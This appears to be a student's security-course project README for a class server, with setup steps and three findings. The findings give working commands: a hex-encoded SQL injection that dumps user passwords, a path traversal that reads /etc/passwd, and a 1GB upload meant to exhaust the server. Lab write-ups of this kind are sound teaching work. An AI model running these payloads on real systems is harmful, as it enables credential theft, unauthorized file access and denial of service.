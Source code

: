 # csci4271-proj2
- Let url be the path to access 443
"enter" means putting the string in the search bar in web browser, 
lines without "enter" is input in terminal

# Running the program:
git clone...
./install.sh
make
sudo ./bcpwm-server
-> Change to another terminal, navigate to the same directory

# Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
enter "<url>/init_client/31/32"
- Confirm user added:
enter "<url>/confirm-client/31/32/<token>"
- Adding a rule
enter "<url>/post-rule/init/admin/1"

# Finding 1: Inject SQL to extract all user credentials
# Expected result: List of all users and passwords
payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
curl -k "<url>/init_client/${payload}/31"

# Finding 2: Inject '../' into the file path parameter to read unauthorized files
# Expected result: Contents of /etc/passwd
payload=$(echo "../../etc/passwd" | xxd -p)
enter "<url>/get_rule/${payload}"

# Finding 3: Generate a large file (1GB) and upload it
# Expected result: Server becomes unresponsive or logs indicate resource exhaustion.
dd if=/dev/zero of=largefile.txt bs=1M count=1024
curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"





